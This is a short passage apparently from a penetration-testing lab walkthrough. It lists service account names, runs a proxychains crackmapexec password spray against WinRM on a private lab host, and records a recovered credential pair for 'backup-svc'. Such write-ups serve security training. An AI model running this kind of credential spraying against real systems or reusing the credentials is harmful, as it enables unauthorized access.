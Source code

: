 ```
netscaler-svc
backup-svc
xenserver-svc
test-svc
app-svc
print-svc
mssql-svc
```



- from enumeration on subnet we figured out 172.16.249.200 has port 5985 open
- using crackmapexec on that ip

```
proxychains crackmapexec winrm 172.16.249.200 -u svc.lst -p '#S3rvice#@cc'
```

![image-20200912184823498](xen.assets/image-20200912184823498.png)

#### credentials

```
backup-svc 		#S3rvice#@cc
```

![image-20200912185015674](xen.assets/image-20200912185015674.png)
